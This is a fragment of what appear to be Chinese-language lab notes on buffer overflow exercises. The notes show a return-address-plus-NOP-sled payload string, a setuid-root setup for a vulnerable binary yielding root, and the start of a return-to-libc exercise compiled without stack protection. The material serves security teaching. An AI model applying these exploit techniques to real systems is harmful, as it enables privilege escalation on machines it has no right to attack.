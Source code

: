 置換原本的BBBB
※記得是由右到左
"\xa9\x8a\xe0\xb7" + "\x90"*8
這個"\x90"*8是確保NOP Sleed



ll stack
sudo chown root:root stack
sudo chmod 4755 stack
./stack
uid=0(root) (sambashare)

---
###### 練習6 Libc Exploit to Bypass No Execute Stack

cd ~/Download/libc
檔案 retlib.c
sizeof 改 140
![image](images/BJfInwbvp.png)


gcc retlib.c -o retlib -fno-stack-protector
